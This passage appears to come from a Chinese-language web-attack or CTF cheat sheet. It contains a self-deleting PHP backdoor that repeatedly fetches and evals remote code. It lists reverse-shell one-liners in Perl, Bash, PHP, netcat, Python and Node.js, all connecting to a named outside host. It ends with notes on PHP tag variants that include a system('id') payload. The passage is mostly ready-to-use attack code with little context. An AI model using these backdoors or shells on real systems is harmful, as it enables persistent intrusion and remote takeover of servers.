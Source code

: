 解法：restart
```php
<?php  
    unlink(__FILE__);  
    ignore_user_abort(true);  
    set_time_limit(0);  
    $remote_file = 'http://xxx/xxx.txt';  
    while($code = file_get_contents($remote_file)){  
        @eval($code);  
        sleep(5);  
    };  

?>  
```


## Reverse Shell

- 本机Listen Port
    - `ncat -vl 1234`

- Perl
    - `perl -e 'use Socket;$i="rs.panja.cc";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

- Bash
    - `bash -i >& /dev/tcp/rs.panja.cc/1234 0>&1`
    - `bash -c 'bash -i >& /dev/tcp/rs.panja.cc/1234 0>&1'`
    - `0<&196;exec 196<>/dev/tcp/rs.panja.cc/1234; sh <&196 >&196 2>&196`

- PHP
    - `php -r '$sock=fsockopen("rs.panja.cc",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`

- NC
    - `nc -e /bin/sh rs.panja.cc 1234`

- Python
    - `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("rs.panja.cc",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

- Node.js
    - `var net = require("net"), sh = require("child_process").exec("/bin/bash"); var client = new net.Socket(); client.connect(1234, "rs.panja.cc", function(){client.pipe(sh.stdin);sh.stdout.pipe(client); sh.stderr.pipe(client);});`
    - `require('child_process').exec("bash -c 'bash -i >& /dev/tcp/rs.panja.cc/1234 0>&1'");`

# PHP Tag

- `<? ?>`
    - short_open_tag 决定是否可使用短标记
    - 或是编译php时 --enable-short-tags
- `<?=`
    - 等价 <? echo
    - 自`PHP 5.4.0`起，always work!
- `<% %>`、`<%=`
    - 自`PHP 7.0.0`起，被移除
    - 须将`asp_tags`设成On
- `<script language="php"`
    - 自`PHP 7.0.0`起，被移除
    - `<script language="php">system("id"); </script>`
